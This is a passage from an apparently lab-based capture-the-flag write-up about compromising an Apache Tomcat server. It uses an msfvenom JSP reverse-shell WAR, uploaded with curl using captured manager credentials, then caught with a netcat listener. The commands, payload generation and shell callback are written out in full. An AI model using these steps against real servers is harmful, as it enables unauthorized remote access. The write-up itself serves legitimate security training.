 It doesn't work for the Manager App though, the reason is shown above in the exploit output:

```text
GUI access is disabled for security reasons.
```

## MSFVenom

Now we have credentials to Apache we can upload a Java based reverse shell. Let's create one using msfvenom:

```text
┌──(root💀kali)-[~/thm/dotjar]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.165.116 LPORT=1234 -f war -o pencer-shell.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: pencer-shell.war
```

Another Google found [this](https://gist.github.com/pete911/6111816) which shows how to use curl to upload the file. Let's try it:

```text
┌──(root💀kali)-[~/thm/dotjar]
└─# curl --upload-file pencer-shell.war -u webdev:'Hgj3LA$02D$Fa@21' 'http://dotjar.thm:8080/manager/text/deploy?path=/' 
OK - Deployed application at context path [/pencer-shell.war]
```

Now we can trigger the reverse shell, either by browsing to it:

![dotjar-warfile](/assets/images/2021-04-28-17-14-11.png)

Or using curl, for that we need to open the actual .jsp file inside that war:

```text
┌──(root💀kali)-[~/thm/dotjar]
└─# jar tf pencer-shell.war 
WEB-INF/
WEB-INF/web.xml
rvptpjsbxcgx.jsp

┌──(root💀kali)-[~/thm/dotjar]
└─# curl http://dotjar.thm:8080/pencer-shell2.war/rvptpjsbxcgx.jsp
```

Either way, switching to our waiting netcat listeners sees we have a connection:

```text
┌──(root💀kali)-[~/thm/dotjar]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.33.74] 36432
```
